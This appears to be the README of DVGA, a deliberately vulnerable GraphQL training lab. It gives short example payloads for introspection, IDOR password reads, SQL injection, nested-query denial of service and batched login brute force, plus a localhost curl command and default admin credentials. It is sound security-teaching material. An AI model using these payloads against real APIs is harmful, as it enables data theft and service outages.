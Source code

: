 # DVGA - Damn Vulnerable GraphQL Application

## Overview
DVGA (Damn Vulnerable GraphQL Application) is an intentionally vulnerable implementation of Facebook's GraphQL technology to learn and practice GraphQL security.

## Quick Start

**Access URL**: http://localhost:5013/graphiql

**Default Credentials**:
- Username: `admin`
- Password: `password`

## Vulnerabilities

### 1. Information Disclosure
- **Introspection**: Query the entire schema structure
- **Field Suggestions**: GraphQL's helpful error messages leak schema info
- **Example**:
  ```graphql
  {
    __schema {
      types {
        name
        fields {
          name
          type {
            name
          }
        }
      }
    }
  }
  ```

### 2. Broken Authorization
- **IDOR**: Access other users' data by manipulating IDs
- **Example**:
  ```graphql
  query {
    user(id: "2") {
      username
      password
    }
  }
  ```

### 3. Injection Attacks
- **SQL Injection** in search queries
- **NoSQL Injection** in filters
- **Example**:
  ```graphql
  query {
    search(term: "' OR '1'='1") {
      id
      title
    }
  }
  ```

### 4. Denial of Service
- **Query Depth Attack**: Deeply nested queries
- **Resource Exhaustion**: Expensive queries
- **Example**:
  ```graphql
  query {
    users {
      posts {
        comments {
          author {
            posts {
              comments {
                # ... continue nesting
              }
            }
          }
        }
      }
    }
  }
  ```

### 5. Batching Attacks
- **Brute Force**: Multiple queries in one request
- **Example**:
  ```graphql
  query {
    user1: login(username: "admin", password: "pass1")
    user2: login(username: "admin", password: "pass2")
    user3: login(username: "admin", password: "pass3")
    # ... continue
  }
  ```

## Exploitation Tools

### GraphQL Introspection
```bash
# Using curl
curl -X POST http://localhost:5013/graphql \
  -H "Content-Type: application/json" \
  -d '{"query":"{ __schema { types { name } } }"}'
```

### GraphQL Voyager
Access the visual schema explorer at: http://localhost:5013/voyager

### Using InQL (Burp Extension)
1. Install InQL extension in Burp Suite
2. Send GraphQL endpoint to Scanner
3. Generate queries from introspection

## Learning Objectives
- Understanding GraphQL security risks
- Query depth and complexity attacks
- Authorization bypass techniques
- Information disclosure via introspection
- Rate limiting and query cost analysis

## Defense Mechanisms (What's Missing)
- ❌ Query depth limiting
- ❌ Query complexity analysis
- ❌ Field-level authorization
- ❌ Introspection disabled in production
- ❌ Rate limiting
- ❌ Query whitelisting

## Additional Resources
- [GraphQL Security Best Practices](https://www.apollographql.com/blog/graphql/security/9-ways-to-secure-your-graphql-api-security-checklist/)
- [OWASP GraphQL Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/GraphQL_Cheat_Sheet.html)
- [GraphQL Security Testing](https://github.com/dolevf/graphql-security) 